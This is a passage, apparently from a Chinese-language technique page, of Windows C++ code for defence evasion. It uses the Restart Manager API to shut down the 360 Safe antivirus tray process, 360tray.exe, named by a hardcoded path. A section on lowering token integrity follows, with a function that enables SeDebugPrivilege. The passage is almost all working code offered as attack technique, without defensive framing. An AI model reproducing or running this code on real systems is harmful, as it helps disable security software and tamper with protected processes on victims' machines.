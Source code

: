 ```c++
  DWORD dwError = RmStartSession(&dwSessionHandle, 0, szSessionKey);
  wprintf(L"RmStartSession returned %d\n", dwError);
  if (dwError == ERROR_SUCCESS)
  {
      // PCWSTR pszFile = argv[1];
      PCWSTR pszFile = L"D:\\360\\360Safe\\safemon\\360tray.exe";
      dwError = RmRegisterResources(dwSessionHandle, 1, &pszFile, 0, NULL, 0, NULL);
      if (dwError == ERROR_SUCCESS)
      {
          DWORD dwReason;
          UINT i;
          UINT nProcInfoNeeded;
          UINT nProcInfo = 100;
          RM_PROCESS_INFO rgpi[100];
          dwError = RmGetList(dwSessionHandle, &nProcInfoNeeded, &nProcInfo, rgpi, &dwReason);

          if (dwError == ERROR_SUCCESS)
          {
              RmShutdown(dwSessionHandle, 0, NULL);
          }
      }
      RmEndSession(dwSessionHandle);
  }
  return 0;
}
```

## 降低令牌完整性

### EnableDebugPrivilege

```c++
#include <Windows.h>
#include <stdio.h>
#include <iostream>
#include <TlHelp32.h>
#include <conio.h>

bool EnableDebugPrivilege()
{
  HANDLE hToken;
  LUID sedebugnameValue;
  TOKEN_PRIVILEGES tkp;
  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken))
  {
      return   FALSE;
  }
  if (!LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &sedebugnameValue))
  {
      CloseHandle(hToken);
      return false;
  }
  tkp.PrivilegeCount = 1;
  tkp.Privileges[0].Luid = sedebugnameValue;
  tkp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
  if (!AdjustTokenPrivileges(hToken, FALSE, &tkp, sizeof(tkp), NULL, NULL))
  {
      CloseHandle(hToken);
      return false;
  }
  return true;
}

```